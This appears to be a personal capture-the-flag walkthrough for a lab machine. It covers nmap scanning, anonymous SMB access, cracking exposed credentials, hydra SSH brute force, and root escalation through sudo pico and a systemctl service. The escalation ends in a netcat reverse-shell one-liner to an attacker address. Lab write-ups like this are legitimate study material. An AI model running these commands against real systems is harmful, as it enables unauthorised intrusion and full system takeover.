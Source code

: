 

export IP=192.168.99.105

nmap -sC -sV $IP

=> Use msfconsole and check ftp version is exploit or not

searchsploit vsftpd 3.0.3    => Check with manual

ftp 192.168.99.105   => i try to connect with ftp but  its fail!

site help      => i also use this command to enumate

smbmap -H 192.168.99.105     => cuz i found smbp port in 445

smbclient //192.168.99.105/anonymous -N   => cuz i found anonymous file 

get share  => i downloaded share file

![[Pasted image 20230109212959.png]]

I get this information from share file that i downloaded  => include ftp username and password


hash-identifier    => i try to know which hashing algoram use for hashing

https://hashes.com/en/decrypt/hash   => decrypt

Finally i found user name and password for FTP server 
-> admin
->qazwsxedc

 cd /     => go to root  dictory   => we get user access


SSH username and password also same with FTP service

----------------------------------

Rooting Rootin Rooting

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null    -> suid enum

uname -a    -> version check 

cat /etc/*release  -> os ko kyi dar

==> we go to misconfigulation

ls -al /opt       => most interesting ka opt  && var && var->log &&  var -> www && 

=> hydra -l valex -P useful.txt 192.168.99.105 -t 4 ssh   -> we brute with his secret 

==> we using linpeas 

![[Pasted image 20230123214800.png]]
 We think jin user can have access to excute systemctl    <><><>

![[Pasted image 20230123215559.png]]
We also see this many txt files

so we inquire this and we notice one file is not same with other file
![[Pasted image 20230123215528.png]]

![[Pasted image 20230123215842.png]]
we found this one from different txt file

*** hydra -l valex -P useful.txt 192.168.99.105 ssh -t 4 -e nsr   -> nsr ka username ko reverse loke dr  => good option for hydra

![[Pasted image 20230123220803.png]]
we got this one -> su valex *****

![[Pasted image 20230123220859.png]]

We are going to GTFO bin to get shell access // that's have sir !!!
![[Pasted image 20230123221728.png]]

sudo -u jin /usr/bin/pico
and then using this script 
![[Pasted image 20230123223201.png]]

![[Pasted image 20230123223233.png]]
Dummm!! man we got jin user

If we got jin user we will abuse with systemctl command -> we was known at linpeas

We are going to GTFO bIN
```

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

we replace with Execstart in reverse shell =>  ExecStart=/bin/sh -c "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.99.116 4242 >/tmp/f"

and then remove ./   

nc -lvp 4242 

Done   ### We got root 

![[Pasted image 20230123224632.png]]
